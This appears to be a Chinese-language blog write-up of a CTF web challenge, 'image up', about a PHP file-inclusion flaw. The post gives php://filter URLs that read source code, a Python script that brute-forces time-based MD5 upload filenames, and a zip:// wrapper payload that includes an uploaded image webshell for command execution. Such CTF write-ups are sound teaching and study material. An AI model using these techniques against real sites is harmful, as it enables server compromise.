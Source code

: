 ```yaml
---
layout: post
title: 安恒杯月赛 web:image up
categories: [web]
tags: [web]
fullview: true
comments: true
---
```

>     http://101.71.29.5:10007/index.php?page=login  
  
仔细观察这个url的话会发现，存在文件包含。  

而且并没有login.php而是login，猜测代码是  
><?php include **str**."php";  


随便账号密码就能登陆，来到了一个上传页面，只能上传图片，回头看看题目  
  
这里的思路明确了，文件包含加图片马。  

>     在这时间统一的世界里，上传图片试试吧

突然发现，并不知道图片去哪里了。  

用为协议读取源代码，  

>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=login
>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=upload   
>     
  
  




**注意，因为包含文件的时候自动拼接.php，所以这里只写login和upload**  
     
![](https://i.imgur.com/k76GdPb.png)


在upload这里我们发现代码实现的功能。  


>     分割文件名和文件后缀，然后文件名保存为MD5(当前时间+文件名)+文件后缀，上传到upload目录下边。  

这个文件名其实是可以预测的，只不过我们得稍微的爆破一下他前后左右很短的一段时间，访问他是否存在来判断时间是否正确。  

制作一个图片马，上传后立即运行脚本。    


<pre><code>import time
import hashlib
import requests
def md5(str):
    m=hashlib.md5()
    m.update(str)
    return m.hexdigest()
t=int(time.time())
for i in range(t+8*3600-20,t+8*3600+60):#时差查了八个小时
    url="http://101.71.29.5:10007/"+"uploads/"+md5("sky"+str(i))+".jpg"
    res=requests.get(url)

    if res.status_code==200:
        print(url+'')
</code></pre> 
  


直接包含这个图片，发现不行，因为读upload.php源码的时候会发现拼接了.php，相当于你包含了shell.jpg.php，这是一个不存在的文件。  

为了绕过拼接，我们可以用phar和zip为协议。    

  



![](https://i.imgur.com/GX7cfkG.png)  

本来最后必须要打你完整的木马的名字:name.php，但是php是自动拼接的，所以就之打name。  

这样就可以让绕过.php的自动拼接了。。。  

http://101.71.29.5:10043/index.php?page=zip://uploads/图片.jpg%23shell密码，然后命令执行就可以了